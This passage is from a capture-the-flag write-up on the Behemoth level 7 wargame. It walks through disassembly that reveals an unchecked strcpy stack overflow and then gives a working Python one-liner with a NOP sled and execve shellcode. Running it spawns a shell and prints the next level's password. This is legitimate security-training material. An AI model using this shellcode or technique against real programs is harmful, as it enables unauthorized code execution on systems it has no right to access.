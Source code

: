 ```
memset(0xffffdf60, '\0', 10)                                    = 0xffffdf60
strlen("SHLVL=1")                                               = 7
memset(0xffffdf6b, '\0', 7)                                     = 0xffffdf6b
strlen("LOGNAME=behemoth7")                                     = 17
memset(0xffffdf73, '\0', 17)                                    = 0xffffdf73
strlen("PATH=/usr/local/bin:/usr/bin:/bi"...)                   = 61
memset(0xffffdf85, '\0', 61)                                    = 0xffffdf85
strlen("OLDPWD=/home/behemoth7")                                = 22
memset(0xffffdfc3, '\0', 22)                                    = 0xffffdfc3
strlen("_=/usr/bin/ltrace")                                     = 17
memset(0xffffdfda, '\0', 17)                                    = 0xffffdfda
+++ exited (status 0) +++
```
Looking at the disassembly, we can clearly see that it also jumps to the end of the program if no commandline argument is provided:
```
 804859f:       83 7d 08 01             cmp    DWORD PTR [ebp+0x8],0x1
 80485a3:       0f 8e 9a 00 00 00       jle    8048643 <main+0x118>
 80485a9:       eb 6d                   jmp    8048618 <main+0xed>
```

Another essential thing we can see is that there is a guaranteed possibility for buffer overflow:
```
 804862b:       8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 804862e:       83 c0 04                add    eax,0x4
 8048631:       8b 00                   mov    eax,DWORD PTR [eax]
 8048633:       50                      push   eax
 8048634:       8d 85 f4 fd ff ff       lea    eax,[ebp-0x20c]
 804863a:       50                      push   eax
 804863b:       e8 70 fd ff ff          call   80483b0 <strcpy@plt>
```
It copies our provided string from the commandline argument into the stack, at offset ```0x20c``` from the saved base pointer, so, in order to overflow the saved return address, all we need to do is provide ```0x20c + 0x8``` byes!
Proof:

```
behemoth7@behemoth:/behemoth$ ./behemoth7 $(python -c 'print "a" * (0x20c + 0x8)')
Segmentation fault
```

Using the same technique as before, we find the address on the stack where our shellcode will be positioned and we will also add some nop's to guarantee that it lands where we want it to.
```
behemoth7@behemoth:/behemoth$ ./behemoth7 $(python -c "print 528 * '\x41' + '\xff\xd7\xff\xff' + 500 * '\x90' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
$ whoami
behemoth8
$ ls /etc/behemoth_pass
behemoth0  behemoth1  behemoth2  behemoth3  behemoth4  behemoth5  behemoth6  behemoth7  behemoth8
$ cat /etc/behemoth_pass/behemoth8
pheewij7Ae
```

Brilliant!

## Conclusion ##
This was fun and definetely challenging! It was very much like Narnia, but the format string vulnerability was very clever, much like Phoenix's Format challenges from Exploit Education.
I will soon try to solve the challenges offered by ```Utumno``` as well!
